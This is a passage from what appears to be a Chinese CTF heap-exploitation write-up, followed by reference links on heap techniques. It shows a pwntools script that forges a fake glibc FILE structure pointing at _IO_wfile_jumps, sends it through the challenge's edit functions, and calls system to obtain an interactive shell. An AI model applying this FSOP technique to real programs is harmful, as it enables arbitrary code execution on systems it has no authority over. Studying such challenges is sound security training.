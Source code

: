 ```plain
fake_IO_struct += p64(1)                             #_flag2
fake_IO_struct = fake_IO_struct.ljust(0x88,b'\x00')
fake_IO_struct += p64(heap_base + 0x200)             #_lock = a writable address
fake_IO_struct = fake_IO_struct.ljust(0xa0,b'\x00')
fake_IO_struct += p64(fake_io_addr + 0x200)          #fake_wide_data
fake_IO_struct = fake_IO_struct.ljust(0xd8,b'\x00')
fake_IO_struct += p64(libc.sym['_IO_wfile_jumps'] - 0x20)        #fake_vatable
fake_IO_struct = fake_IO_struct.ljust(0x200,b'\x00')
fake_IO_struct += b'\x00'*0xe0 + p64(fake_io_addr + 0x2e0)
fake_IO_struct += b'\x00'*0x60 + p64(libc.sym['system'])

payload = b'a'*0x500 + fake_IO_struct

edit(4,payload)
edit(1,p32(0x2000)*10)
edit(8,b'\x00'*0x608 + p64(0x100))
sla(b': ',b'1')
sla(b': ',b'9')
leak("libc.address",libc.address)
leak("system",libc.sym['system'])

sla(b': ',b'1800')

p.interactive()
```

#### 参考文章

[PWN——House Of Einherjar CTF Wiki例题详解-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/251596)

[PWN 堆利用 unlink 学习笔记 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/541226698)

[堆溢出 off by one & off by null - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12861)
